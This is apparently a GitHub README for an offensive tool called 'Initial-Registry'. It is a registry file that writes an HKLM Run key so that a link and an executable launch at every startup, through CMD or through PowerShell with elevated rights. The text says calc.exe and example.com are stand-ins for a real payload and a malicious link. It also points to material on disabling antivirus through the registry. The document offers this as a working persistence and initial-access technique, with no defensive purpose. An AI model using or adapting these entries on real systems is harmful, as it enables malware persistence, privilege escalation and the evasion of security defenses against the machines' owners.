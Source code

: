 # Initial-Registry
It is a simple registry file that performs malicious activities when the refresh button is pressed, Such as start a malicious link, making an execution for payload, or running a malicious command line in CMD or PowerShell

![1706980167902](https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/911125db-9ec9-4be3-b0b7-d9ee63317003)
Specifically through the registry.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="cmd /c start http://www.example.com && calc.exe"

The harmful activities are carried out through the CMD, but the operator may also need to execute these activities from the PowerShell and not the CMD, which is why I put this other registry as an alternative to the CMD.

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]
"TaskManagerURL"="powershell -Command \"Start-Process 'http://www.example.com'; Start-Process 'calc.exe' -Verb RunAs\""


Of course, in the real operation, Calc.exe will be replaced by payload, and example.com will be replaced by the malicious link. with all these malicious activities, you may be exposed to detection, and also since we use the Windows Registry in this operation, we may also use the Windows Registry or after the Windows registry to create a disable for defenses


https://github.com/S3N4T0R-0X0/Initial-Registry/assets/121706460/6e5b2591-3953-4a6b-b05f-81a405e8bf80

I used this site for resources to desible defenses through the Windows registry by setting Windows Registry  Activity in the disable.txt
https://swisskyrepo.github.io/InternalAllTheThings/redteam/persistence/windows-persistence/#disable-antivirus-and-security

Note: After clicking on the registry file and setting the payload input, you may need to restart the Windows machine so that you can run the exploit.




